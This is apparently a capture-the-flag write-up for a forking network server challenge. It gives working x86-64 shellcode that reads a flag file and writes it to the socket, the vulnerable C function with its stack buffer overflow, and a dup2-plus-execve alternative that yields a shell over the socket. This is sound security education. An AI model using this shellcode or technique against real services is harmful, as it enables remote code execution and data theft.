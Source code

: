 # server

This challenge is very similar to the [Only Read Write](../onlyreadwrite/README.md) challenge. The only difference is that the binary now is a server that listens on a port and forks a child process that reads in a buffer. Then we have to write not on stdout but on the socket file descriptor.

```c
    mov r12, rdi
    mov rax, 0x101010101010101
    push rax
    mov rax, 0x101010101010101 ^ 0x67616c662f2e
    xor [rsp], rax
    mov rdi, rsp
    xor edx, edx /* 0 */
    xor esi, esi /* 0 */
    /* call open() */
    push SYS_open /* 2 */
    pop rax
    syscall
    /* call read(fd_open, 'rsp', 0x64) */
    push rax
    xor eax, eax /* SYS_read */
    pop rdi
    push 0x64
    pop rdx
    mov rsi, rsp
    syscall
    /* write(fd_socket, buf='rsp', n=0x64) */
    push r12
    pop rdi
    push 0x64
    pop rdx
    mov rsi, rsp
    /* call write() */
    push SYS_write /* 1 */
    pop rax
    syscall
```

In this case I used R12 to store the socket file descriptor. The shellcode is the same as the previous challenge, except for the write part were we put R12 in RDI, and then we call write.

The process forked from the server executes this function

```c
void prog(int socket_fd) {
  size_t n;
  char name [1008];

  get_name(socket_fd, name);
  write(socket_fd, "Hello Mr.", 9);
  n = strlen(name);
  write(socket_fd, name, n);
  return;
}
```

get_name() is reading 4096 bytes in a buffer of 1008 bytes, so we have a buffer overflow. We overflow the buffer with the shellcode and modify the return address to point to it. We know the address of the shellcode because it is in the .bss section and the binary is not PIE.

## Alternative solution

One can also use the syscall `dup2` to redirect the socket file descriptor to stdout, and then use the shellcode from the previous challenges.

```x86asm
xor rax, rax
mov rax, 0x21 /* dup2 */
mov rsi, 0x0
/* mov rdi, rdi <- the fd is already in rdi */
syscall
```

Then do the same for stdin. And then just a normal execve will do the job.

Note that I'm not overwriting the rdi register (that should contain the `newfd` argument) because the file descriptor is already in rdi.

The complete exploit is in [script.py](script.py).

